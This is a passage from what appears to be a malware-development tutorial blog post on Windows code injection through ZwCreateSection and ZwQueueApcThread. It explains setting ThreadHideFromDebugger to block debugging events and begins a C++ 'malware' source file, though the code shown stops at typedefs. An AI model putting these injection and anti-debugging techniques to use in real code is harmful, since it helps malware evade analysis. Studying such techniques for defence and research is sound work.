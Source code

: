 ### Practical example   

My example's logic is similar to [previous post](/tutorial/2022/01/14/malware-injection-13.html), the only difference is:    

![injection 2](/assets/images/36/2022-01-18_23-00.png){:class="img-responsive"}    

As you can see, I replaced payload launching logic.    

There is one interesting point with `ZwSetInformationThread`. The second parameter of this function is the `THREADINFOCLASS` structure, which is an enumerated type. The last label field is `ThreadHideFromDebugger`. By setting `ThreadHideFromDebugger` for the thread, you can prohibit a thread from generating debugging events. This was one of the first anti-debugging techniques provided by Windows in Microsoft's search for how to prevent reverse engineering, and it's very powerful.    

Full source code of malware:    

```cpp
/*
 * hack.cpp - code injection via ZwCreateSection, ZwUnmapViewOfSection, ZwQueueApcThread
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/01/17/malware-injection-14.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
```